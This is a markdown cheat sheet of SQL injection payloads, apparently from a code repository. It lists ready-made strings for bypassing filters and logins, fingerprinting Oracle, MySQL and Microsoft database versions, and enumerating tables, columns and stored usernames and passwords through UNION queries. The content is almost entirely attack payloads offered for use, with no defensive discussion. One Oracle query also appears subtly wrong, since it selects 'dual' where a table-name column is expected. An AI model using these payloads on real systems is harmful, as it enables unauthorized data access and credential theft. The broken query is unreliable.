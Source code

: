 # SQL Injection Payloads

**Retreive Hidden Data**
  - Modify the query parameter value
```SQL
'+OR+1=1--
```
---
**Login bypass**
  - Modify the user or username parameter
```SQL
administrator'--
```
---
**Oracle database type and version information**
  - Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Display the database version information
```SQL
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
---
**MySQL and Microsoft database type and version information**
- Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'#
```
  - Display the database version information
```SQL
'+UNION+SELECT+@@version,+NULL#
```
---
**Listing database contents from other tables on Oracle database**
  - Determine the number of columns being returned by the query and which columns contain text data
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Retrieve the list of tables in the database
```
'+UNION+SELECT+dual,NULL+FROM+all_tables--
```
  - Retrive the details of the columns in the table (replace the table name)
```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
  - Retrive the username and passwords of all users (replace the table name and the column name)
```
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
---
